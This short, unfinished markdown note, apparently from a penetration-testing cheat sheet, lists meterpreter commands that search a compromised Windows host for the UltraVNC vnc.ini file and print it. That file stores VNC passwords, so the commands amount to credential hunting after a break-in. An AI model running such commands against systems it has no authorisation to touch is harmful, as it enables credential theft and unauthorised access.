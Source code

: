 # Metasploit


```
meterpreter > ls -RS "vnc.ini"

meterpreter > search -d C:\\ -f vnc.ini

meterpreter > cat C:\path\to\vnc.ini
```

- UltraVNC

TODO: Fill this info